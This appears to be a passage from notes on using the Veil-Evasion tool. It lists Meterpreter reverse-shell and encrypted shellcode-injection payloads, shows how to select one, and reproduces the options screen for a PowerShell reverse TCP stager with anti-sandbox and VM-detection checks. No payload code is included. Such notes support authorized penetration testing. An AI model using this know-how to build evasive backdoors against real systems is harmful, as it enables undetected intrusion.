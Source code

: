 ```
	24)	powershell/shellcode_inject/virtual.py

	25)	python/meterpreter/bind_tcp.py
	26)	python/meterpreter/rev_http.py
	27)	python/meterpreter/rev_https.py
	28)	python/meterpreter/rev_tcp.py
	29)	python/shellcode_inject/aes_encrypt.py
	30)	python/shellcode_inject/arc_encrypt.py
	31)	python/shellcode_inject/base64_substitution.py
	32)	python/shellcode_inject/des_encrypt.py
	33)	python/shellcode_inject/flat.py
	34)	python/shellcode_inject/letter_substitution.py
	35)	python/shellcode_inject/pidinject.py
	36)	python/shellcode_inject/stallion.py

	37)	ruby/meterpreter/rev_http.py
	38)	ruby/meterpreter/rev_https.py
	39)	ruby/meterpreter/rev_tcp.py
	40)	ruby/shellcode_inject/base64.py
	41)	ruby/shellcode_inject/flat.py
```
+ Can use a payload using `use <PAYLOAD_NUMBER>`
+ The `powershell/meterpreter/rev_tcp.py` payload will generate a `.bat` file incorporating the powershell payload, and can use it with `use 22`
```
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 Payload Information:

	Name:		Pure PowerShell Reverse TCP Stager
	Language:	powershell
	Rating:		Excellent
	Description:    pure windows/meterpreter/reverse_tcp stager, no
	                shellcode

Payload: powershell/meterpreter/rev_tcp selected

 Required Options:

Name            	Value   	Description
----            	-----   	-----------
BADMACS         	FALSE   	Checks for known bad mac addresses
DOMAIN          	X       	Optional: Required internal domain
HOSTNAME        	X       	Optional: Required system hostname
LHOST           	        	IP of the Metasploit handler
LPORT           	4444    	Port of the Metasploit handler
MINBROWSERS     	FALSE   	Minimum of 2 browsers
MINPROCESSES    	X       	Minimum number of processes running
MINRAM          	FALSE   	Require a minimum of 3 gigs of RAM
PROCESSORS      	X       	Optional: Minimum number of processors
SLEEP           	X       	Optional: Sleep "Y" seconds, check if accelerated
USERNAME        	X       	Optional: The required user account
USERPROMPT      	FALSE   	Window pops up prior to payload
UTCCHECK        	FALSE   	Check that system isn't using UTC time zone
VIRTUALPROC     	FALSE   	Check for known VM processes

 Available Commands:

	back        	Go back to Veil-Evasion
```
